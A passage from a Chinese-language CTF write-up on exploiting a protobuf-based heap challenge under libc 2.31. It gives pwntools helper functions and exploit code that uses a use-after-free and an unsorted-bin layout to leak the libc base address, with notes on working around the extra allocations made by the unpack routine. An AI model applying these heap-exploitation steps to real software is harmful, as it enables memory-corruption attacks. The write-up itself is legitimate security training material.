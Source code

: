 ```python
    msg.len = 1
    msg.content = b'c_lby'
    msg.actionid = 2
    r.sendafter(b'TESTTESTTEST!\n', msg.SerializeToString())


def show(idx):
    msg = pb.Message_request()
    msg.id = idx
    msg.sender = b'admin'
    msg.len = 1
    msg.content = b'c_lby'
    msg.actionid = 3
    r.sendafter(b'TESTTESTTEST!\n', msg.SerializeToString())


def edit(idx, content):
    msg = pb.Message_request()
    msg.id = idx
    msg.sender = b'admin'
    msg.len = 1
    msg.content = content
    msg.actionid = 4
    r.sendafter(b'TESTTESTTEST!\n', msg.SerializeToString())
```

###### 堆风水布置
题目环境是libc2.31，各种hook还没有被删掉，又有UAF，大小又可以到0x500以上，那不随便造。先考虑泄露libc，因为2.31的tcachebin已经加入了doublefree检查，所以申请0x500大chunk释放掉，进入unsortedbin，然后利用UAF将libc地址show出来。

但是这里有个问题，在前面讲unpack函数的时候也讲过，解包的时候会malloc和free一些堆块，导致这道题其实堆环境并不干净，而且每一次操作，都会经历一次unpack，所以我们布置堆风水的时候要考虑到每一次的unpack使用的堆。

我们先来看unpack完之后堆环境长什么样：![](/images/e53d8270cb7916904936cd71539478f6.png)

一次unpack申请了三个chunk，bins中没有东西，可以视为没有释放堆块。按照正常思路，我们先申请一个大于0x480的chunk，id为0，然后申请一个小的chunk防止合并，id为1，然后释放chunk0，我们就能得到一个unsorted chunk。此时我利用UAF就可以把通过show chunk0把libc打印出来。但是，在unpack会申请堆块的情况下，我们在show操作的时候，unpack函数申请的堆块会从chunk0里切割，并且unpack函数会往堆块里写一些东西，我们本要泄露的libc地址就被破坏了。

所以我选择将计就计，既然他要切割，我就给他一个免费的chunk0给他随便切（前提是这个chunk足够大），我再另外造一个unsorted chunk出来泄露。于是泄露libc的堆可以这么布置：

```python
add(0, 0x500) # 拿来牺牲，随便切割的chunk0
add(1, 0x18)  # 防止合并
add(2, 0x480)  # unpack会申请堆地址，所以第一个unsortedchunk会被分割，用原本的ptr中存的地址是打印不出来libc地址的。虽然会打印0x500个字节里肯定有别的libc地址，但是为了方便，还是再申请一个unsortedchunk来泄露libc地址。
add(3, 0x18)
delete(0)
delete(2)
show(2)

libc_base = u64(r.recv(6).ljust(8, b'\x00'))-0x1ECFF0
log.info('libc_base:'+hex(libc_base))
```
